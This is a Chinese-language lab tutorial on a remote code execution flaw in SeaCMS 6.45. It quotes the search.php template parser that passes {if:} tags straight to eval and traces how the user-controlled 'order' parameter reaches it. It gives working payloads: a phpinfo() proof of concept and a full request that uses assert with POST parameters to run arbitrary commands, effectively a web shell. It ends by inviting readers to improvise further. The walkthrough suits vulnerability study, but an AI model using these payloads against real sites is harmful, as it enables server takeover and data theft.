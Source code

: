 # 海洋CMS漏洞利用过程

诱发此漏洞的原因是其search.php文件，我们现在对其search文件进行查看。

```
function parseIf($content){
        if (strpos($content,'{if:')=== false){
        return $content;
        }else{
        $labelRule = buildregx("{if:(.*?)}(.*?){end if}","is");
        $labelRule2="{elseif";
        $labelRule3="{else}";
        preg_match_all($labelRule,$content,$iar);
        $arlen=count($iar[0]);
        $elseIfFlag=false;
        for($m=0;$m<$arlen;$m++){
            $strIf=$iar[1][$m];
            $strIf=$this->parseStrIf($strIf);
            $strThen=$iar[2][$m];
            $strThen=$this->parseSubIf($strThen);
        if (strpos($strThen,$labelRule2)===false){
            if (strpos($strThen,$labelRule3)>=0){
                $elsearray=explode($labelRule3,$strThen);
                $strThen1=$elsearray[0];
                $strElse1=$elsearray[1];
                @eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
            if ($ifFlag){ $content=str_replace($iar[0][$m],$strThen1,$content);} else {$content=str_replace($iar[0][$m],$strElse1,$content);}
                }else{
                @eval("if(".$strIf.") { \$ifFlag=true;} else{ \$ifFlag=false;}");
            if ($ifFlag) $content=str_replace($iar[0][$m],$strThen,$content); else $content=str_replace($iar[0][$m],"",$content);}
                        }else{
                $elseIfArray=explode($labelRule2,$strThen);
                $elseIfArrayLen=count($elseIfArray);
                $elseIfSubArray=explode($labelRule3,$elseIfArray[$elseIfArrayLen-1]);
                    $resultStr=$elseIfSubArray[1];
                        $elseIfArraystr0=addslashes($elseIfArray[0]);
                        @eval("if($strIf){\$resultStr=\"$elseIfArraystr0\";}");
                        for($elseIfLen=1;$elseIfLen<$elseIfArrayLen;$elseIfLen++){
                                        $strElseIf=getSubStrByFromAndEnd($elseIfArray[$elseIfLen],":","}","");
                                        $strElseIf=$this->parseStrIf($strElseIf);
                                        $strElseIfThen=addslashes(getSubStrByFromAndEnd($elseIfArray[$elseIfLen],"}","","start"));
                                        @eval("if(".$strElseIf."){\$resultStr=\"$strElseIfThen\";}");
                                        @eval("if(".$strElseIf."){\$elseIfFlag=true;}else{\$elseIfFlag=false;}");
                                        if ($elseIfFlag) {break;}
                                }
                                $strElseIf0=getSubStrByFromAndEnd($elseIfSubArray[0],":","}","");
                                $strElseIfThen0=addslashes(getSubStrByFromAndEnd($elseIfSubArray[0],"}","","start"));
                                if(strpos($strElseIf0,'==')===false&&strpos($strElseIf0,'=')>0)$strElseIf0=str_replace('=', '==', $strElseIf0);
                                @eval("if(".$strElseIf0."){\$resultStr=\"$strElseIfThen0\";\$elseIfFlag=true;}");
                                $content=str_replace($iar[0][$m],$resultStr,$content);
                        }
                }
                return $content;
                }
        }
```
上面主要逻辑为解析html文件中的{if:}{endif}标签代码，可以看到没有做任何处理就eval，那么我们查找一下对应调用的地方会不会有漏洞。 主要关注前台，找到一处解析搜索结果的页面（search.php），代码比较多，一点一点来看。 找到调用的位置line 212




```
$content=$mainClassObj->parseIf($content);
```
往上看，发现他的逻辑是先解析其他类型的标签，比如

```
{searchpage:page}
```

那么接下来的思路，主要是2点，查找对应if标签可控的位置，另一种就是查找其他标签的可控内容，写入if标签 我找到一处其他标签可控且没有做任何处理的位置，直接写入if标签语句即可造成任意代码执行


```
function echoSearchPage()
{
        global $dsql,$cfg_iscache,$mainClassObj,$page,$t1,$cfg_search_time,$searchtype,$searchword,$tid,$year,$letter,$area,$yuyan,$state,$ver,$order,$jq,$money,$cfg_basehost;
        $order = !empty($order)?$order:time;
 ...
 ...
 ...
$content = str_replace("{searchpage:page}",$page,$content);
        $content = str_replace("{seacms:searchword}",$searchword,$content);
        $content = str_replace("{seacms:searchnum}",$TotalResult,$content);
        $content = str_replace("{searchpage:ordername}",$order,$content);
```



order变量可控并且在调用parseIf函数前先解析，所以我们可以通过order写入if标签。 查看一下具体html代码



```
<div class="btn-toolbar" role="toolbar">
    <div class="btn-group">
      <a href="{searchpage:order-time-link}" {if:"{searchpage:ordername}"=="time"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderhits">最新上映</a>
      <a href="{searchpage:order-hit-link}" {if:"{searchpage:ordername}"=="hit"} class="btn btn-success" {else} class="btn btn-default" {end if} id="orderaddtime">最近热播</a>
      <a href="{searchpage:order-score-link}" {if:"{searchpage:ordername}"=="score"} class="btn btn-success" {else} class="btn btn-default" {end if} id="ordergold">评分最高</a>
    </div>
  </div>
```

那么接下来就可以构造poc了，类似sql注入，我们先把前面的if标签语句闭合，写入恶意代码并闭合后面的if标签。


```
}{end if}{if:1)phpinfo();if(1}{end if}
```

## 三、漏洞测试

通过指令

```
wget http://labfile.oss.aliyuncs.com/courses/879/seacms6.45.zip
```
![Alt text](/img/sea-1.gif)

下载seacms 6.45，通过

```
sudo unzip seacms6.45.zip
```
将文件解压，将其中的upload目录通过mv指令移动到网站根目录下。（在压缩包压缩之后文件是会出现中文的目录的，这个不用担心，我们只需要使用  cd + tab 键进行切换到中文目录名上，然后敲击回车即可，然后进入目录中，切记给upload目录配置777权限~）
开始安装，安装完成后，大家可以看到这样的一个界面
![Alt text](/img/sea-2.png)

可以看到该cms上方的搜索功能，而问题就出现在这。我们在搜索栏随意输入一些数值进行查找，然后使用我们的exp进行注入。（通过在firefox中安装扩展插件hackbar可以实现方便的使用，如果第一个hackbar显示不完全，则可以安装第二个。）


通过

```
searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo();
```
就可以利用了，当然这只是一个tips，剩下的大家可以自由发挥进行操作。
![Alt text](/img/sea-3.gif)
